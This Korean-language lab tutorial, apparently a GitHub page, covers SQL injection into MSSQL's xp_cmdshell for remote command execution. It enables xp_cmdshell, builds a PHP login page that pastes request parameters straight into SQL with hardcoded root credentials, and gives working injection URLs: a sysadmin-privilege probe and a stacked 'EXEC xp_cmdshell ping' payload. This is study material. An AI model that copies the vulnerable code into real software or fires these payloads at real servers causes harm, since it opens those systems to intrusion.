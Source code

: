 # Stored Procedure SQL Injection

xp_cmdshell이라는 [Stored Procedure](#https://ko.wikipedia.org/wiki/%EC%A0%80%EC%9E%A5_%ED%94%84%EB%A1%9C%EC%8B%9C%EC%A0%80)를 호출하여 원격 코드 실행을 할 수 있다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [Stored Procedure](#Time-based)**

 - [xp_cmdshell](#xp_cmdshell)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Windows 10 20H2 19042.508 |
| Architecture  | x86-64                    |
| IP            | 192.168.0.41              |
| MSSQL         | 2019 Express              |
| SSMS          | 18.11.1                   |

[MSSQL Server](#https://www.microsoft.com/ko-kr/sql-server/sql-server-downloads)를 다운받은 후 설치하자.

설치 완료 후 SSMS도 설치하자.

![](images/2022-06-14-18-31-21.png)

SSMS를 실행 후 MSSQL로 연결하자.

![](images/2022-06-14-18-53-26.png)

test라는 테이블을 만들고 id와 pw라는 컬럼을 만든 후 데이터를 넣자.

```sql
USE [test]
GO

INSERT INTO [dbo].[user]([id],[pw])
     VALUES
           ('admin','helloworld')
GO
```

취약한 서버 환경을 위하여 xp_cmdshell을 사용할 수 있는 지 확인하자.

```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```

value 컬럼의 값이 0이라면, 다음의 쿼리를 통해 값을 바꾸자.

```sql
EXEC sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell', 1
GO

RECONFIGURE
GO
```

Web/WAS는 Ubuntu로 구성하였다.

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
root@ubuntu:~# apt -y install php-pear php-dev unixodbc-dev
root@ubuntu:~# pecl install sqlsrv
root@ubuntu:~# pecl install pdo_sqlsrv
root@ubuntu:~# curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
root@ubuntu:~# curl https://packages.microsoft.com/config/ubuntu/20.04/prod.list > /etc/apt/sources.list.d/mssql-release.list
root@ubuntu:~# apt-get update
root@ubuntu:~# apt-get -y install msodbcsql18
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=sqlsrv.so
extension=pdo_sqlsrv.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
        if (isset($_GET['userid']) && isset($_GET['password'])) {
                $option = array("Database" => "test", "UID" => "root", "PWD" => "root", "Encrypt" => true, "TrustServerCertificate"=> true);
                $conn = sqlsrv_connect("192.168.0.41, 3306", $option);
                if ($conn === false) die(print_r( sqlsrv_errors(), true));
                $sql = "SELECT id,pw FROM [user] WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
                $result = sqlsrv_query($conn, $sql);
                if (!$result) die(print_r( sqlsrv_errors(), true));
                $row = sqlsrv_fetch_array($result, SQLSRV_FETCH_ASSOC);
                if ($row) echo "Welcome ".$row['id'];
                else echo "Login Failed";
                sqlsrv_free_stmt($result);
                sqlsrv_close($conn);
        } else {
?>
<html>
        <body>
                <form action="/index.php" method="get">
                        <label>ID : </label><input type="text" name="userid" required>
                        <label>PW : </label><input type="password" name="password" required>
                        <input type="submit" value="login">
                </form>
        </body>
</html>
<?php
        }
?>
```

# **Stored Procedure**

## **xp_cmdshell**

xp_cmdshell을 사용하기 위해서는 접속 계정이 해당 권한을 가지고 있어야 한다.

UNION SELECT를 이용하여 권한을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' UNION SELECT is_srvrolemember('sysadmin'),2-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+UNION+SELECT+is_srvrolemember%28%27sysadmin%27%29%2C2--&password=123 |

결과는 다음과 같다.

	Welcome 0

0이라면 권한이 없다는 것이므로, SMSS를 통해서 권할을 부여하자.

![](images/2022-06-14-21-30-38.png)

다시 권한을 확인해보자.

	Welcome 1

RCE여부를 확인하기 위해 Wireshark를 띄우고 ping명령을 실행하게 하자.

| data	| value	|
| :---	| :--- 	|
| ID	| '; EXEC master.sys.xp_cmdshell 'ping 8.8.8.8'-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27%3B+EXEC+master.sys.xp_cmdshell+%27ping+8.8.8.8%27--&password=123 |

결과는 다음과 같다.

![](images/2022-06-14-21-32-40.png)